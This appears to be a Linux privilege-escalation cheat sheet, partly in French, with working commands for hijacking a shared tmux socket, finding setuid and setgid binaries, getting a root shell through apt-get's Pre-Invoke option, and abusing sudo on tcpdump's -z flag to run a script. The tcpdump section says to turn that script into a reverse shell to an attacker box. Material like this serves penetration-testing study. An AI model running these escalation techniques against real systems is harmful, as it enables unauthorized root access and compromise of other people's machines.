 - Terminal multiplexers such as tmux can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a tmux window, we can detach from the session, still leaving it active

```bash
tmux -S /shareds new -s debugsess
chown root:<groupName | devs> /shareds
# check running tmux process
ps aux | grep tmux
# confirm permissions
ls -la /shareds
# exploit by attaching session
tmux -S /shareds
```

## Permissions-based Privilege Escalation

###### Special Permissions

- The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an s.

  - 1 - Bit setuid (suid : 4XXX) : Lorsque ce bit est activé sur un fichier exécutable, le programme s'exécute avec les permissions du propriétaire du fichier.
  - 2 - Bit setgid (sgid: 2XXX) : Lorsqu'il est activé sur un répertoire, les fichiers créés à l'intérieur héritent du groupe du répertoire plutôt que du groupe de l'utilisateur qui les a créés.
  - 3 - Bit sticky (sticky bit : 1XXX) : Traditionnellement utilisé sur des répertoires pour restreindre la suppression de fichiers à leur propriétaire.

  ```bash
  # find vulnerable file (setuid)
  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

  or (setuid and set gid) 

  find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
  ```

````

[Ressource link](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)

- use gtfoBins

  ```bash
  sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

  id
  ```

###### Sudo Rights Abuse

```bash
sudo -l

# exemple of tcpdump which use root priv without password
 sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
# -z => execute shell script
# modify /tmp/test to do a reverse shell
cat /tmp/.test
# rerun it and do a listenner in attacker box

```

###### Privileged Groups
````